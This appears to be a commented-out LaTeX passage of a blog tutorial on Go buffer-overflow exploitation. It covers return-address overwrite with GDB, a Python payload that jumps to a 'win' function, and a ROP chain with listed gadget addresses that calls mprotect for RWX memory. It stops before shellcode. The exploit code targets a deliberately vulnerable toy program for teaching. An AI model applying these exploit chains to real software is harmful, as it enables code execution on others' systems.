%what is being executed.
%
%Buffer overflow, part 2: controlling the return address
%
%In the first part we learned that local variables are located on the stack at addresses just below the return address.
%When the function returns, it will increment the stack pointer to the point where no space for local variables is used,
%effectively freeing them. The stack pointer rsp will then point to the stored return address.
%
%Now comes the ret machine instruction. It is actually equivalent to pop rip or even mov rip, [rsp]; add rsp, 8.
%The processor will fetch the address stored on the top of the stack, put it into the instruction pointer register, and
%continue execution at that address.
%
%![Return to saved RIP](assets/return.svg)
%
%If we can somehow change the return address stored on the stack to an address we can control, we can change the program
%control flow.
%
%
%Code flow redirection POC
%
%To see how we can actually exploit this, we will have a look at a proof of concept exploit with an example program.
%
%First, we create a win function to be compiled into the binary. We can use it as a target to redirect the code
%flow to. This is a good first step in learning code flow exploitation. The function does not do very much, it simply prints
%"win!" so that we know we did good:
%
%\begin{lstlisting}[language=Golang, label=lst:win-function, caption=Target function \texttt{win} for code flow redirection]
%func win()
%fmt.Println("win!")
%\end{lstlisting}
%
%The main function of the program looks like this:
%
%\begin{lstlisting}[language=Golang, label=lst:redirection-poc-1, caption=Code flow redirection POC first part]
%// initialize the reader outside of the main function to simplify POC development, as
%// there are less local variables on the stack.
%var reader = bufio.NewReader(os.Stdin)
%
%func main()
%// this is a harmless buffer, containing some harmless data
%harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'
%
%// create a slice of length 512 byte, but assign the address of the harmless data as
%// its buffer. Use the reflect.SliceHeader to change the slice
%confusedSlice := make([]byte, 512)
%sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(confusedSlice))
%harmlessDataAddress := uintptr(unsafe.Pointer((harmlessData[0])))
%sliceHeader.Data = harmlessDataAddress
%
%// now read into the confused slice from STDIN. This is not quite as bad as a gets()
%// call in C, but almost. The function will read up to 512 byte, but the underlying
%// buffer is only 8 bytes. This function is pretty much the complete vulnerability
%,  = reader.Read(confusedSlice)
%\end{lstlisting}
%
%
%There is a buffer of length 8 bytes with some harmless data. It is created as a local variable, which means it will live
%on the stack at an address a bit lower than the return address.
%
%Next, we will simulate an almost-as-bad coding practice as calling the gets() function in a C code. We will
%deliberately create a buffer overflow vulnerability. Recall that Go has some safety features that prevent buffer
%overflows, so for this to work we are using the unsafe.Pointer type.
%
%We initialize a slice with initial length and capacity 512 bytes. The slice is actually placed on the heap, not the
%stack, but that is irrelevant for the vulnerability. Next, using the reflect.SliceHeader structure we can extract
%the slice header data structure that Go uses internally to represent the slice. It looks like this:
%
%For testing, I here refer to Listing~\ref{lst:win-function}.
%
%go
%type SliceHeader struct
%Data uintptr
%Len  int
%Cap  int
%
%
%
%The length and capacity are 512 in this case, and Data is a pointer to the underlying array that contains the elements
%in the slice. Now, using the magic of unsafe pointers we can obtain the address of the 8 byte harmless buffer, cast it
%into a uintptr address value and replace the Data pointer with that address. This way, the slice will now point to the
%small buffer as its underlying array, but the length will still be set to 512 bytes.
%
%This is a misuse of the unsafe package and it creates a very dangerous situation: Calling reader.Read() in the next
%statement will fill the slice with data from standard input, but the function thinks it is safe to read up to 512 bytes
%while the underlying array is only 8 bytes long. This is not completely identical to the unbounded gets() call,
%but the effect is the same as the confused slice is more than long enough to provide an attack surface.
%
%To sketch a threat model, recall the binary communication protocol from the last part of this blog series. We mentioned
%that in order to have dynamic packet lengths, we would add a length field. If we write the code for the server application
%without the dangers of explicitly creating slice headers in mind, we could simply use the length coming from the request
%data as length for our slice. This would create a situation similar to the one above, and because the length would be
%set by an attacker, a bit closer to the Heartbleed bug [[1]](references) as well.
%
%
%Crafting a binary exploit
%
%Now, how can we use this buffer overflow vulnerability and create an actual exploit that will put a meaningful address
%into the stack at exactly the right position to be loaded into the instruction pointer? For this, we will use GDB.
%
%Playing around with the program shows an input prompt that reads some data and then seems to just swallow it:
%
%shell
%./main
%Hello World
%
%
%
%However, putting in a large string will crash the program. That is a pretty good hint that there is potential to
%exploit a buffer overflow.
%
%shell
%./main
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%unexpected fault address 0x0
%fatal error: fault
%[signal SIGSEGV: segmentation violation code=0x80 addr=0x0 pc=0x4925d1]
%
%goroutine 1 [running]:
%runtime.throw(0x4c1077, 0x5)
%/usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000110f50 sp=0xc000110f20 pc=0x42ebd2
%runtime.sigpanic()
%/usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000110f80 sp=0xc000110f50 pc=0x4429dc
%runtime: unexpected return pc for main.main called from 0x4141414141414141
%stack: frame=sp:0xc000110f80, fp:0xc000110f88 stack=[0xc000110000,0xc000111000)
%    000000c000110e80:  0000000000000001  0000000000000000
%    000000c000110e90:  000000c000110ed0  0000000000430404 <runtime.gwrite+164>
%    000000c000110ea0:  0000000000000002  00000000004c0dd6
%    000000c000110eb0:  0000000000000001  0000000000000001
%    000000c000110ec0:  000000c000110f3d  0000000000000003
%    000000c000110ed0:  000000c000110f20  0000000000430c28 <runtime.printstring+120>
%    000000c000110ee0:  000000000042ed97 <runtime.fatalthrow+87>  000000c000110ef0
%    000000c000110ef0:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
%    000000c000110f00:  000000000042ebd2 <runtime.throw+114>  000000c000110f20
%    000000c000110f10:  000000c000110f40  000000000042ebd2 <runtime.throw+114>
%    000000c000110f20:  000000c000110f28  0000000000458500 <runtime.throw.func1+0>
%    000000c000110f30:  00000000004c1077  0000000000000005
%    000000c000110f40:  000000c000110f70  00000000004429dc <runtime.sigpanic+972>
%    000000c000110f50:  00000000004c1077  0000000000000005
%    000000c000110f60:  4141414141414141  0000000000000000
%    000000c000110f70:  4141414141414141  00000000004925d1 <main.main+177>
%    000000c000110f80: <4141414141414141 >4141414141414141
%    000000c000110f90:  4141414141414141  4141414141414141
%    000000c000110fa0:  4141414141414141  4141414141414141
%    000000c000110fb0:  4141414141414141  4141414141414141
%    000000c000110fc0:  4141414141414141  4141414141414141
%    000000c000110fd0:  4141414141414141  4141414141414141
%    000000c000110fe0:  4141414141414141  4141414141414141
%    000000c000110ff0:  4141414141414141  4141414141414141
%    main.main()
%    /tmp/code-injection/main.go:28 +0xb1 fp=0xc000110f88 sp=0xc000110f80 pc=0x4925d1
%
%
%    In the resulting stack trace, we can even see a lot of 0x41 values, which is the ASCII value for the letter A.
%
%    It is time to debug the program with GDB and see where the instruction pointer actually points to after the function
%    return. This way, we can adjust the number of bytes that we need to scramble into the program before we can put our
%    exploit payload, overwriting the return address on the stack.
%
%    To do this, I create a Python script to produce the exploit payload:
%
%    python
%    !/usr/bin/env python2
%
%    pattern = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV"
%    print(pattern)
%
%
%    The pattern consists of letters in ascending order. This is a pattern that is easily recognizable in the hex outputs
%    of GDB and really useful to determine the return address offset on the stack.
%
%    In GDB, start the program like this:
%
%    gdb
%    gdb-peda run <<<(./exploitwin.py)
%    [...]
%    Stopped reason: SIGSEGV
%    0x00000000004925d1 in main.main () at main.go:28
%
%
%    We pipe the output of the exploit script into the program, and we see that the program receives a SIGSEGV segmentation
%    fault signal. This signal means that the processor tried to read or write data at an invalid address, here it's because
%    it tried to execute the ret instruction and jump to an address consisting of our ASCII characters. To see
%    which address the CPU would jump to, we need to look at the top of the stack:
%
%    gdb
%    gdb-peda x/8wx rsp
%    0xc000068f80:	0x4f4f4f4f	0x50505050	0x51515151	0x52525252
%    0xc000068f90:	0x53535353	0x54545454	0x55555555	0x56565656
%
%
%    Using the x command, we inspect 8 words of data (each word is 4 bytes in GDB) and print them in hexadecimal form. The
%    first two blocks (8 bytes total) are the 64-bit word that the CPU wants to put into the rip register. We
%    can see that it is 0x4f4f4f4f50505050. Looking at the ASCII table, we see that it corresponds to OOOOPPPP, and
%    therefore we need to cut the padding just before the O's and replace those eight characters with the address we want to
%    jump to.
%
%    Just before closing GDB, let's quickly use it to find the address of our specially crafted win function. First, try
%    to directly access its address:
%
%    shell
%    gdb-peda x main.win
%    No symbol "main.win" in current context.
%
%
%    We see that there doesn't seem to be any function called win. This is because the Go compiler decided to inline the
%    function (we can see the inlining decisions by compiling with go build -gcflags='-m'). Let's instead just directly
%    jump to the address of the print call that will show us the win message. We search for it in the disassembly of the
%    main function:
%
%    gdb
%    gdb-peda disassemble main.main
%    Dump of assembler code for function main.main:
%    0x0000000000492520 <+0>:	mov    rcx,QWORD PTR fs:0xfffffffffffffff8
%    0x0000000000492529 <+9>:	cmp    rsp,QWORD PTR [rcx+0x10]
%    0x000000000049252d <+13>:	jbe    0x49262d <main.main+269>
%    0x0000000000492533 <+19>:	sub    rsp,0x78
%    0x0000000000492537 <+23>:	mov    QWORD PTR [rsp+0x70],rbp
%    0x000000000049253c <+28>:	lea    rbp,[rsp+0x70]
%    0x0000000000492541 <+33>:	mov    rax,QWORD PTR [rip+0x48e10]         0x4db358
%    0x0000000000492548 <+40>:	mov    QWORD PTR [rsp+0x40],rax
%    0x000000000049254d <+45>:	lea    rax,[rip+0xe82c]         0x4a0d80
%    0x0000000000492554 <+52>:	mov    QWORD PTR [rsp],rax
%    0x0000000000492558 <+56>:	mov    QWORD PTR [rsp+0x8],0x200
%    0x0000000000492561 <+65>:	mov    QWORD PTR [rsp+0x10],0x200
%    0x000000000049256a <+74>:	call   0x443670 <runtime.makeslice>
%    0x000000000049256f <+79>:	mov    rax,QWORD PTR [rsp+0x18]
%    0x0000000000492574 <+84>:	mov    QWORD PTR [rsp+0x58],rax
%    0x0000000000492579 <+89>:	mov    QWORD PTR [rsp+0x60],0x200
%    0x0000000000492582 <+98>:	mov    QWORD PTR [rsp+0x68],0x200
%    0x000000000049258b <+107>:	lea    rax,[rsp+0x40]
%    0x0000000000492590 <+112>:	mov    QWORD PTR [rsp+0x58],rax
%    0x0000000000492595 <+117>:	mov    rax,QWORD PTR [rip+0xd3ce4]         0x566280 <main.reader>
%    0x000000000049259c <+124>:	mov    QWORD PTR [rsp],rax
%    0x00000000004925a0 <+128>:	mov    rax,QWORD PTR [rsp+0x58]
%    0x00000000004925a5 <+133>:	mov    QWORD PTR [rsp+0x8],rax
%    0x00000000004925aa <+138>:	mov    QWORD PTR [rsp+0x10],0x200
%    0x00000000004925b3 <+147>:	mov    QWORD PTR [rsp+0x18],0x200
%    0x00000000004925bc <+156>:	call   0x46b740 <bufio.(*Reader).Read>
%    0x00000000004925c1 <+161>:	cmp    BYTE PTR [rsp+0x40],0x2a
%    0x00000000004925c6 <+166>:	je     0x4925d2 <main.main+178>
%    0x00000000004925c8 <+168>:	mov    rbp,QWORD PTR [rsp+0x70]
%    0x00000000004925cd <+173>:	add    rsp,0x78
%    => 0x00000000004925d1 <+177>:	ret
%    0x00000000004925d2 <+178>:	nop
%    0x00000000004925d3 <+179>:	xorps  xmm0,xmm0
%    0x00000000004925d6 <+182>:	movups XMMWORD PTR [rsp+0x48],xmm0
%    0x00000000004925db <+187>:	lea    rax,[rip+0xe65e]         0x4a0c40
%    0x00000000004925e2 <+194>:	mov    QWORD PTR [rsp+0x48],rax
%    0x00000000004925e7 <+199>:	lea    rax,[rip+0x491b2]         0x4db7a0
%    0x00000000004925ee <+206>:	mov    QWORD PTR [rsp+0x50],rax
%    0x00000000004925f3 <+211>:	mov    rax,QWORD PTR [rip+0xd3c9e]         0x566298 <os.Stdout>
%    0x00000000004925fa <+218>:	lea    rcx,[rip+0x4a95f]         0x4dcf60 <go.itab.*os.File,io.Writer>
%    0x0000000000492601 <+225>:	mov    QWORD PTR [rsp],rcx
%    0x0000000000492605 <+229>:	mov    QWORD PTR [rsp+0x8],rax
%    0x000000000049260a <+234>:	lea    rax,[rsp+0x48]
%    0x000000000049260f <+239>:	mov    QWORD PTR [rsp+0x10],rax
%    0x0000000000492614 <+244>:	mov    QWORD PTR [rsp+0x18],0x1
%    0x000000000049261d <+253>:	mov    QWORD PTR [rsp+0x20],0x1
%    0x0000000000492626 <+262>:	call   0x48bf10 <fmt.Fprintln>
%    0x000000000049262b <+267>:	jmp    0x4925c8 <main.main+168>
%    0x000000000049262d <+269>:	call   0x459ae0 <runtime.morestacknoctxt>
%    0x0000000000492632 <+274>:	jmp    0x492520 <main.main>
%    End of assembler dump.
%
%
%    It might not be completely obvious where the function starts, but given the call to win that we added to stop the
%    compiler from removing the function altogether was inside an if-statement, it is reasonable that the function would
%    be at the target of some conditional jump instruction (je in line <+161> here): it is at line <+178>, starting with
%    a NOP instruction. Skipping the NOP, we can use line <+179> or address 0x00000000004925d3 as target.
%
%    So let's update the exploit code to use the correct padding and the target address:
%
%    python
%    !/usr/bin/env python2
%
%    import struct
%
%    padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
%    winp = struct.pack("Q", 0x4925d3)
%
%    print(padding + winp)
%
%
%    Running the program with this input creates the following output:
%
%    shell
%    ./exploitwin.py | ./main
%    win!
%    unexpected fault address 0xc000072000
%    fatal error: fault
%    [signal SIGSEGV: segmentation violation code=0x2 addr=0xc000072000 pc=0xc000072000]
%
%    goroutine 1 [running]:
%    runtime.throw(0x4c1077, 0x5)
%    /usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000070fd8 sp=0xc000070fa8 pc=0x42ebd2
%    runtime: unexpected return pc for runtime.sigpanic called from 0xc000072000
%    stack: frame=sp:0xc000070fd8, fp:0xc000071008 stack=[0xc000070000,0xc000071000)
%        000000c000070ed8:  000000c000070fbc  000000c000070f18
%        000000c000070ee8:  000000000043023b <runtime.recordForPanic+299>  0000000000590565
%        000000c000070ef8:  00000000004c0dd6  0000000000000001
%        000000c000070f08:  0000000000000001  0000000000000000
%        000000c000070f18:  000000c000070f58  0000000000430404 <runtime.gwrite+164>
%        000000c000070f28:  0000000000000002  00000000004c0dd6
%        000000c000070f38:  0000000000000001  0000000000000001
%        000000c000070f48:  000000c000070fbc  000000000000000c
%        000000c000070f58:  000000c000070fa8  0000000000430c28 <runtime.printstring+120>
%        000000c000070f68:  000000000042ed97 <runtime.fatalthrow+87>  000000c000070f78
%        000000c000070f78:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
%        000000c000070f88:  000000000042ebd2 <runtime.throw+114>  000000c000070fa8
%        000000c000070f98:  000000c000070fc8  000000000042ebd2 <runtime.throw+114>
%        000000c000070fa8:  000000c000070fb0  0000000000458500 <runtime.throw.func1+0>
%        000000c000070fb8:  00000000004c1077  0000000000000005
%        000000c000070fc8:  000000c000070ff8  00000000004429dc <runtime.sigpanic+972>
%        000000c000070fd8: <00000000004c1077  0000000000000005
%        000000c000070fe8:  0000000000000000  000000c000072000
%        000000c000070ff8:  0000000000000000
%        runtime.sigpanic()
%        /usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000071008 sp=0xc000070fd8 pc=0x4429dc
%
%
%        Quite obvious from the big stack trace, we see that the program crashed. But more importantly, we see the win! output
%        right at the top, which means that the win function was indeed executed. We don't actually care about the program
%        crash, the objective was to decide which code should be executed and this was successful!
%
%
%
%%% -----------------------------------------------------------------------------
%
%        \section{Part 3}
%
%        Executing code on the stack
%
%        Following the last part of the series, you might have thought: what if we pipe actual machine instructions into the
%        program, and then use the address of this machine code on the stack (inside the buffer receiving the input data) instead
%        of the address of the win function. This way, we could execute arbitrary code of our choice, including just spawning
%        a shell and thus having a universal interface to run more code.
%
%        Indeed, this was possible not too much time ago. One would send the padding necessary to fill up the input buffer and
%        stack up to the stored return pointer, then an address a bit later in the stack, and then the machine code needed to
%        start a shell. If the padding was long enough, it would also be possible to put the code into the padding, reducing the
%        overall input data size.
%
%        Because the stack is always a bit unpredictable (for example, environment variables might get pushed onto the stack and
%        they could be different on each program run), the exact address of the shell code could vary slightly. And if we would
%        miss it by even a byte, the code would become corrupted and stop working.
%
%        To mitigate this, we could send a lot of NOP instructions (opcode 0x90 [[2]](references)) between the address and the shell code, and
%        then try to jump into the middle of those instructions. This way, we don't have to hit the exact correct byte, instead
%        the exploit also works if we jump to an address that is a few bytes before or after. This is because all possible
%        target addresses (within some range) would be NOP instructions, and the CPU would just follow along all NOP
%        instructions until it reaches the shell code and executes it. This technique is called the nop slide [[3]](references), because the CPU in
%        a way slides down a slope of NOPs.
%
%        The payload that we would inject could look like this:
%
%        ![Nop Slide Inject Payload](assets/payload.svg)
%
%
%        DEP and ASLR: mitigations against buffer overflows
%
%        Unfortunately, these days it isn't quite that easy anymore. Operating system developers have done a lot of work to
%        implement countermeasures against this simple code-on-the-stack exploit.
%
%        Data Execution Prevention [[7]](references) is a technique which assigns different permissions to the memory pages used by a program. There
%        are pages that can only be read (like literals and constants), pages that can be read and executed (like the program
%        instructions itself) and pages that can be written (e.g. the stack or heap). But the pages that can be written to can
%        not be executed! Different names for this are RW (read xor write) or NX (Non-eXecutable memory). This technique has been in
%        use by all major operating systems for years, and it effectively prevents us from writing our code onto the stack and
%        then executing it.
%
%        Another mitigation is Address Space Layout Randomization (ASLR) [[1]](references), which randomizes the addresses of dynamically linked
%        libraries, or maybe even functions inside the binary itself, when loading it into the RAM. This way, we can not use GDB
%        to analyze the binary locally and determine addresses where we might jump to, because on the exploit target (possibly
%        remote) the addresses would be completely different.
%
%        Fortunately for this proof of concept, Go does not really use ASLR. The binaries produced by the Go compiler have
%        deterministic addresses, and at least this small program gets statically linked so there are no dynamic libraries that
%        could be loaded at different addresses. We can see this by running some analysis on the binary file:
%
%        shell
%        readelf -l main
%
%        Elf file type is EXEC (Executable file)
%        Entry point 0x45d310
%        There are 7 program headers, starting at offset 64
%
%        Program Headers:
%        Type           Offset             VirtAddr           PhysAddr
%        FileSiz            MemSiz              Flags  Align
%        PHDR           0x0000000000000040 0x0000000000400040 0x0000000000400040
%        0x0000000000000188 0x0000000000000188  R      0x1000
%        NOTE           0x0000000000000f9c 0x0000000000400f9c 0x0000000000400f9c
%        0x0000000000000064 0x0000000000000064  R      0x4
%        LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
%        0x00000000000926ad 0x00000000000926ad  R E    0x1000
%        LOAD           0x0000000000093000 0x0000000000493000 0x0000000000493000
%        0x00000000000bd151 0x00000000000bd151  R      0x1000
%        LOAD           0x0000000000151000 0x0000000000551000 0x0000000000551000
%        0x0000000000015240 0x00000000000414c8  RW     0x1000
%        GNUSTACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
%        0x0000000000000000 0x0000000000000000  RW     0x8
%        LOOS+0x5041580 0x0000000000000000 0x0000000000000000 0x0000000000000000
%        0x0000000000000000 0x0000000000000000         0x8
%
%        Section to Segment mapping:
%        Segment Sections...
%        00
%        01     .note.go.buildid
%        02     .text .note.go.buildid
%        03     .rodata .typelink .itablink .gosymtab .gopclntab
%        04     .go.buildinfo .noptrdata .data .bss .noptrbss
%        05
%        06
%
%        ldd main
%        the program is not dynamically linked
%
%
%
%        Return2libc
%
%        But wait - didn't we in fact execute code in the last part of the series? Yes, we did! But it was code that was already
%        contained in the binary. We executed the win function that was compiled into the binary. This means that we didn't
%        jump to code that was on the stack (an RW-page), but instead we jumped into the .text segment of the program where all
%        the other machine instructions live, too (an RX-page).
%
%        By reusing code that is already in the binary, we can defeat Data Execution Prevention.
%
%        A generalization of this technique is called return2libc, where we would now jump to a function contained in the huge
%        C standard library libc. We could e.g. use the system function that allows us to execute arbitrary commands. However,
%        as mentioned before the binary produced by the Go compiler is statically linked, and it doesn't link against the libc
%        C library. Thus, we cannot use return2libc. And even if it were linked against libc, ASLR would do a decent job at
%        making it very hard to find out the correct addresses of libc functions.
%
%
%        Return oriented programming
%
%        We need a different approach: Return Oriented Programming (ROP). With ROP, we try to jump into code that is contained
%        in the binary just as with return2libc, but we jump to a location that contains preferably only one or at most a few
%        machine instructions and a return instruction.
%
%        Recall that the return instruction ret actually is a simple pop rip. This means that if we execute ret, and then
%        another ret, we will simply fetch the next processor word from the stack and jump to that address. Now, this enables
%        us to chain together small pieces of code by putting the addresses of these code snippets on the stack, one after
%        another. The important requirements for this are that the code snippets end with a ret instruction, and do not modify
%        the stack pointer rsp, because modifying the stack pointer would destroy our chain of code snippets. Using these
%        snippets, we can craft a program almost like manually coding in assembly, but with only a limited set of assembly
%        instructions available (the ones we find in the binary).
%
%        With these code snippets, we can do arbitrary stuff, including calling syscalls. Syscalls give us the power to e.g.
%        read data into a buffer, or change the execution permissions of memory pages used by the program.
%
%        To find suitable code snippets, we can either manually decompile the complete binary (very tedious), or use a helper
%        tool like ROPgadget or Ropper. I used Ropper here:
%
%% github sashs/Ropper no-readme %
%
%        We analyze the short Go program known from the last part:
%
%        go
%        // initialize the reader outside of the main function to simplify POC development, as there are less local variables
%        // on the stack.
%        var reader = bufio.NewReader(os.Stdin)
%
%        func main()
%        // this is a harmless buffer, containing some harmless data
%        harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'
%
%        // create a slice of length 512 byte, but assign the address of the harmless data as its buffer.
%        // use the reflect.SliceHeader to change the slice
%        confusedSlice := make([]byte, 512)
%        sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(confusedSlice))
%        harmlessDataAddress := uintptr(unsafe.Pointer((harmlessData[0])))
%        sliceHeader.Data = harmlessDataAddress
%
%        // now read into the confused slice from STDIN. This is not quite as bad as a gets() call in C, but almost. The
%        // function will read up to 512 byte, but the underlying buffer is only 8 bytes. This function is the complete
%        // vulnerability, nothing else needed
%        ,  = reader.Read(confusedSlice)
%
%
%
%        The following command shows quite a lot of ROP gadgets (snippets) that are contained in our binary:
%
%        shell
%        ropper --file main --search "%"
%        0x000000000041996b: adc al, 0; ret;
%        0x000000000042dee5: adc al, 0x1f; mov dword ptr [rsp + 0x28], edx; mov qword ptr [rsp + 0x30], rax; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
%        0x000000000042da80: adc al, 0x24; call 0x2d660; mov rbp, qword ptr [rsp + 0x40]; add rsp, 0x48; ret;
%        0x000000000044ba26: adc al, 0x24; call 0x4b190; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
%        0x000000000046c199: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
%        0x000000000046bffa: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x28]; add rsp, 0x30; ret;
%        0x00000000004614fa: adc al, 0x24; call rcx;
%        [...]
%
%
%        Ropper even provides some automated search tools, but in this specific case they couldn't automatically find a complete
%        exploit chain, so I had to dig in using my own hands.
%
%
%        POC: Spawning a shell
%
%        Putting the ROP techniques from above into play, the plan looks like this:
%
%        1. Set the executable and writable flags for a memory page belonging to the program
%        2. Write some code that spawns a shell into the page
%        3. Jump to that code
%
%        The following steps are based on the excellent blog articles [[4, 5, 6]](references). Give them a read for even more details on ROP
%        chains and exploit development.
%
%
%        **Step 1: Get a memory page with RWX permissions**
%
%        To do this, we use the mprotect syscall. Its man page explains the usage:
%
%        c
%        int mprotect(void *addr, sizet len, int prot);
%
%        mprotect() changes the access protections for the calling process's memory pages containing any part of the address
%        range in the interval [addr, addr+len-1]. addr must be aligned to a page boundary.
%
%
%        This means we need to provide the address of the region we want to change, the desired size, and the permission to set.
%        These permissions work similar to file system permissions, so the integer value 7 means RWX.
%
%        I use the Python Exploit Development Assistance (PEDA) for GDB. Follow the instructions on the
%        [PEDA project page](https://github.com/longld/peda) to install it.
%
%        With it, we can use the vmmap command in GDB PEDA to find a suitable memory page:
%
%        gdb
%        gdb-peda vmmap
%        Start              End                Perm	Name
%        0x00400000         0x00493000         r-xp	main
%        0x00493000         0x00551000         r--p	main
%        0x00551000         0x00567000         rw-p	main
%        0x00567000         0x00593000         rw-p	[heap]
%        [...]
%
%
%        The first (r-x) page is the one containing the code. I choose the third page, starting at 0x00551000. It already has
%        the RW permissions, but we need to add X to make it executable. We can choose 0x100 (256 bytes) as size as this will
%        be more than enough space for the shell code.
%
%        How do syscalls work? The general idea is to execute the syscall instruction. Before that, we need to put the syscall
%        number into rax, and set up the arguments to the function. The [Linux x8664 syscall table](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall64.tbl)
%        shows that the mprotect syscall has number 10 (0xa).
%
%        We set up the parameters according to the x8664 calling convention: the first parameters get passed in registers rdi,
%        rsi, rdx, rxc, r8, r9, the remaining ones through the stack. The return value is passed back in rax. This means
%        that we will need to set up the following situation when executing the syscall instruction:
%
%        - rax: 0xa
%        - rdi: 0x00551000
%        - rsi: 0x100
%        - rdx: 0x7
%
%        For this, we now need to find some suitable gadgets in the huge output of Ropper. First, let's try to set rax to 10.
%        There is probably no mov rax, 10, so instead what could be useful is a mov rax, 0 / sub rax, rax / xor rax, rax
%        to set rax to zero, and then add rax, 1 to slowly increase it up to 10.
%
%        I could find a mov eax, 0; ret; gadget at address 0x000000000045b900 and debugging in GDB showed that this is indeed
%        enough to set the whole rax to zero (eax is the lower 32 bit of the 64 bit register rax). Then, combining it with the
%        add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret; gadget applied 5 times we can increment rax to 10. The gadget
%        will also move the eax value to some address in memory but we can just ignore that.
%
%        For rdx and rsi, we can go the easy way and just pop them from the stack, meaning we just put the pop gadget and the
%        value directly behind it. Very convenient. The gadgets look like this: pop rdx; adc al, 0xf6; ret;. They also
%        increment rax through the adc instruction, but if we set up rdx and rsi before setting up rax this is not a
%        problem because we initialize it to zero anyways.
%
%        For setting rdx, I also found pop rdx; xor ah, byte ptr [rsi - 9]; ret;. We could apply it twice to change back the
%        xor operation on rax, but this gadget reads from an address determined through rsi which will segfault in this
%        context.
%
%        The hardest is finding a gadget to set rdi. There is pop rdi; sete byte ptr [rsp + 0x10]; ret;, but this will set
%        a memory address near the stack pointer with the second instruction and thus mess up the ROP chain. The only other good
%        gadget option is pop rdi; dec dword ptr [rax + 0x21]; ret;,  but this decrements a memory address determined by rax.
%        In theory, we don't need to care about this address, but in my experiments the address would always be invalid and
%        thus crash the program too early.
%
%        I found a solution using the pop rax; or dh, dh; ret; gadget. It allows to set rax directly and therefore also makes
%        the above rax increment workaround unnecessary. I leave it in anyways. The important part is, we can now set rax to
%        some dummy address before executing the pop rdi gadget, and then the program does not crash. I use the address of the
%        fourth memory page from above, the heap, for this: 0x00567000.
%
%        Finally, we need the syscall instruction itself. Fortunately, this is straightforward as there is a syscall; ret;
%        gadget.
%
%        Now we can put together the gadget addresses and values. Before them, we put the same padding to offset to the stored
%        return address on the stack. I use the Python pwntools to have some more convenient functions in the exploit script.
%
%        python
%        eax0 = 0x000000000045b900  mov eax, 0; ret;
%        inc2rax = 0x0000000000419963  add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret;
%        poprdx = 0x000000000040830c  pop rdx; adc al, 0xf6; ret;
%        poprsi = 0x0000000000415574  pop rsi; adc al, 0xf6; ret;
%        syscall = 0x000000000045d329  syscall; ret;
%        poprax = 0x000000000040deac  pop rax; or dh, dh; ret;
%        poprdi = 0x000000000040eb97  pop rdi; dec dword ptr [rax + 0x21]; ret;
%
%        addresses
%        buf = 0x00551000  use vmmap in GDB to find it
%        dummy = 0x00567000  heap
%
%        padding
%        payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
%
%        mark memory page at buf rwx
%        payload += p64(poprax)  sete in poprdi mitigation
%        payload += p64(dummy)
%        payload += p64(poprdi)  1ST ARGUMENT
%        payload += p64(buf)  ADDRESS
%        payload += p64(poprsi)  2ND ARGUMENT
%        payload += p64(0x100)  SIZE
%        payload += p64(poprdx)  3RD ARGUMENT
%        payload += p64(0x7)  RWX
%        payload += p64(eax0)  SET RAX = 0
%        payload += p64(inc2rax) * 5  SET RAX = 10
%        payload += p64(syscall)  SYSCALL
%
%
%        Executing the program with this input will mark the memory page with RWX permissions. We can verify this in GDB using
%        the vmmap command:
%
%        gdb
%        gdb-peda vmmap
%        Start              End                Perm	Name
%        [...]
%        0x00551000         0x00567000         rwxp	main
%        [...]
%
%
%
%        **Step 2: Write shell code into the page**
%
%        To read in the shell code, we use the read syscall. Its documentation states the following:
%
%        c
